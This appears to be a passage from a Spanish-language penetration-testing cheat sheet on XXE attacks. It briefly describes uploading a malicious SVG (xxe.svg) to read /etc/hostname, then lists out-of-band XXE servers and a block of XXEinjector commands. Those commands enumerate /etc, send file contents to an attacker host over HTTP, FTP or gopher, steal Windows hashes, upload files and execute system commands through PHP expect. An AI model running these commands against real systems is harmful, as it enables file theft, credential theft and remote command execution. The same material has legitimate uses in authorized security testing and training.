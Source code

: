 lo guardamos como **xxe.svg** y lo enviamos. Estamos pidiendo la salida del comando **/etc/hostname**. Si es vulnerable la pagina podemos ver el contenido del archivo reflejado en la foto cargada dentro de la pagina:

![[Pasted image 20230204230536.png]]

![[Pasted image 20230204230415.png]]

![[Pasted image 20230204230455.png]]

## TOOLS

-   [xxeftp](https://github.com/staaldraad/xxeserv) - A mini webserver with FTP support for XXE payloads
    
```bash
sudo ./xxeftp -uno 443
./xxeftp -w -wps 5555
```
    
-   [230-OOB](https://github.com/lc/230-OOB) - An Out-of-Band XXE server for retrieving file contents over FTP and payload generation via [http://xxe.sh/](http://xxe.sh/)
    
```bash
python3 230.py 2121
```
    
-   [XXEinjector](https://github.com/enjoiz/XXEinjector) - Tool for automatic exploitation of XXE vulnerability using direct and different out of band methods
    
```bash
# Enumerating /etc directory in HTTPS application:
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --ssl
# Enumerating /etc directory using gopher for OOB method:
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --oob=gopher
# Second order exploitation:
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/vulnreq.txt --2ndfile=/tmp/2ndreq.txt
# Bruteforcing files using HTTP out of band method and netdoc protocol:
ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt --file=/tmp/req.txt --oob=http --netdoc
# Enumerating using direct exploitation:
ruby XXEinjector.rb --file=/tmp/req.txt --path=/etc --direct=UNIQUEMARK
# Enumerating unfiltered ports:
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --enumports=all
# Stealing Windows hashes:
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --hashes
# Uploading files using Java jar:
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --upload=/tmp/uploadfile.pdf
# Executing system commands using PHP expect:
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --oob=http --phpfilter --expect=ls
# Testing for XSLT injection:
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --xslt
# Log requests only:
ruby XXEinjector.rb --logger --oob=http --output=/tmp/out.txt

```
    